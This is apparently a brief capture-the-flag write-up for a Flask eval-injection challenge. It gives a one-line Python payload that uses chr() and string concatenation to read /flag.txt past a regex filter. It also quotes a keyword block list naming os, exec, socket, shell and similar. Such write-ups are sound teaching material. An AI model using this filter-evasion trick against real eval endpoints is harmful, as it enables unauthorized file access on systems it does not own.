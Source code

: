 ```python
open(chr(47) + "flag." +"t" + "x" + "t").read()
```

Final exploit above. Regex pattern was in comments 

```
    TODO
    ------------
    Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
```

Basically can't use "/" or "\" and ".txt" is not allowed. Got around this with python string concatenation and the "chr" function.
